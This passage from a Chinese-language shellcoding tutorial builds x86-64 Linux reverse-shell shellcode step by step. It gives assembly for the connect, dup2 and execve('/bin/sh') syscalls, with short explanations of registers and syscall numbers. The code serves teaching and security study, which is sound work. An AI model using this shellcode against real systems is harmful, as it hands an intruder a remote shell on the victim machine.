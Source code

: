 上述命令的输出显示在以下屏幕截图中：

![](../images/00218.gif)

`connect`函数也有三个参数。第一个参数是`sockfd`（来自`socket`函数的输出），它存储在 RDI 寄存器中。第二个是对我们的结构的引用，它存储在 RSI 寄存器中。第三个论点是我们的结构规模。

让我们获取`connect`系统调用号码：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep connect
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00219.gif)

从得到的输出可以看出，系统调用号为`42`。现在，让我们构建`connect`系统调用：

```
xor rdx, rdx
add rdx, 16
xor rax, rax
add rax, 42
syscall
```

现在，`dup2`函数除了第一个参数是`sockfd`之外是相同的，它已经存储在 RDI 寄存器中；让我们也来构建它：

```
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

现在，最后一部分是`/bin/sh`的`execve`系统调用：

```
xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```
